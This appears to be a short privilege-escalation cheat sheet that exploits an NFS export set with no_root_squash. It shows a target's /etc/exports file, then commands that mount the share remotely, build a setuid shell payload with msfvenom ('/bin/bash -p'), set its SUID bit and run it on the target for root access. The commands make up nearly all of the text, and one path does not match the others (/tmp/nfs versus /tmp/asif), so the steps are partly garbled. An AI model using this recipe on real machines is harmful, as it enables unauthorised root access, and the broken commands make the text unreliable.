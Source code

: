    
   
   
 ### Type Command
 
     cat /etc/exports
     
 ### OUTPUT 
 
         /etc/exports: the access control list for filesystems which may be exported
         #		to NFS clients.  See exports(5).
         #
         # Example for NFSv2 and NFSv3:
         # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
         #
         # Example for NFSv4:
         # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
         # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
         #

         /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

         #/tmp *(rw,sync,insecure,no_subtree_check)


  ### Exploit
  
  Open Your LOCAL MACHINE AND TYPE COMMAND
  
    mkdir /tmp/asif
    mount -o rw,vers=2 <Target IP>:/tmp /tmp/asif
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/asif/shell.elf
    chmod +xs /tmp/nfs/shell.elf
  Type A Remote Machine
  
    /tmp/shell.elf




